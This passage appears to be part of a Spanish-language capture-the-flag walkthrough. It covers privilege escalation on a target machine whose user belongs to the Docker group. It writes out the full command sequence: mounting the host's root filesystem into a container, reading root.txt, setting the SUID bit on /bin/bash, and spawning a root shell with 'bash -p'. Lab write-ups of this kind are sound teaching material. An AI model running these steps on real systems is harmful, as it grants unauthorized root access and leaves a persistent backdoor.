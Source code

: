 ## Escalacion de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
```

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

### Escalacion de privilegios con Docker {-}

1. Checkear las imagenes Docker existentes

    ```bash
    docker ps
    ```

1. Utilizar una imagen existente para crear un contenedor y **mountarle** la raiz del systema en el contenedor

    ```bash
    docker run --rm -it -v /:/mnt rodhes bash
    cd /mnt/root/
    cat root.txt
    ```

1. Escalar privilegios en la maquina real

    - en el contenedor

        ```bash
        cd /mnt/bin
        chmod 4755 bash
        exit
        ```
    
    - en la maquina real

        ```bash
        bash -p
        whoami

        #Output
        root
        ```

